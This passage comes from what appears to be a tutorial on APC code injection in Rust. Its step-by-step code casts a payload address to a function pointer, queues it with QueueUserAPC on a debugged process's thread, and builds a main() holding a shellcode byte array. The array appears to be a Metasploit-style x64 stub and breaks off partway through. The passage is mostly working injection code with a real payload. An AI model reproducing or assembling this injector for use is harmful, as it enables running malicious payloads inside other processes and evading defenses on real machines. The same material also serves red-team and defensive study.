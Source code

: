 As usual, let's go step by step

```rust
let func : PAPCFUNC = unsafe{
    Some(
        std::mem::transmute(
            unsafe {
                *p_payload_address
            }
        )
    )
};
```
As seen when defining the signatures of the functions to be used, `QueueUserAPC` requieres a function pointer, that is, the function that will be queued to execute. To be able to do this, we first need to transform the type of `*p_payload_address` to be a function pointer, and that is exactly what the function is doing.

Next what we need to do is to queue the thread in the `APC` Queue, and that is done with the `QueueUserAPC` API call.

```rust
let _ = unsafe {
    QueueUserAPC(
        func,
        *h_thread as *mut winapi::ctypes::c_void,
        0
    ) 
};
```

There is not much to explain here, as we are just passing the arguments the call needs to work.

The last part of the function is quite straight formward as well. Remember we created the proces in a `DEBUG` state? Well, now we need to stop the debugging process and deatach it, so the flow can continue normally and our payload gets executed.

## Writing the `main()`

On the previous sections, we wrote all the necessary code to perform successful APC Injection, but now we need to actually call them in the appropiate sequence with the right arguments on each call. We will do that on our `main()` routine.

```rust

fn main() {
    let mut h_thread : HANDLE = null_mut();
	let mut dw_process_id : DWORD = 0;
	let mut h_process : HANDLE = null_mut();
    
    let payload: [u8; 272] = [0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,
0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,
0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,
0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,
0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,
0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,
0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,
0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,
0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,
0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,
0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,
0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,
0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,
```